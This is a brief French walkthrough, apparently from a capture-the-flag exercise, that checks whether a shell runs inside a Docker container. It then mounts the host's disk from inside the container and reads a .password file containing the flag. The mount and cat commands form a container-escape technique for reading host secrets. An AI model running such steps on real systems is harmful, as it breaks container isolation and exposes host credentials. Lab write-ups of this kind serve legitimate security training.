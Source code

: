 ### Sommes-nous dans un conteneur Docker ?

Pour vérifier si nous sommes dans un conteneur Docker, vous pouvez exécuter les commandes suivantes :

1. **Lister le contenu de la racine `/` :**

   ```bash
   ls -a /
   ```

   **Résultat attendu :**
   ```bash
   .     bin   dev  home  lib32  libx32  mnt  proc  run   srv  tmp  var
   ..  .dockerenv  boot  etc  lib   lib64  media   opt  root  sbin  sys  usr
   ```
   La présence du fichier `.dockerenv` indique que vous êtes dans un conteneur Docker.

2. **Vérifier les capacités :**

   ```bash
   capsh --print
   ```

   **Résultat attendu :**
   ```bash
   cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
   ```

   Cette sortie montre les capacités accordées dans l'environnement du conteneur.

### Accéder au système de fichiers de l'hôte

3. **Monter le système de fichiers de l'hôte :**

   Créez d'abord un répertoire pour monter le système de fichiers de l'hôte :

   ```bash
   mkdir /tmp/host-fs
   ```

   Ensuite, montez le système de fichiers de l'hôte (supposant que `/dev/sda1` est le bon périphérique) :

   ```bash
   mount /dev/sda1 /tmp/host-fs
   ```

4. **Lire le fichier contenant le mot de passe :**

   Accédez au fichier contenant le mot de passe situé sur le système de fichiers de l'hôte :

   ```bash
   cat /tmp/host-fs/.password
   ```

   Cela affichera le contenu du fichier `.password` qui continet le flag.

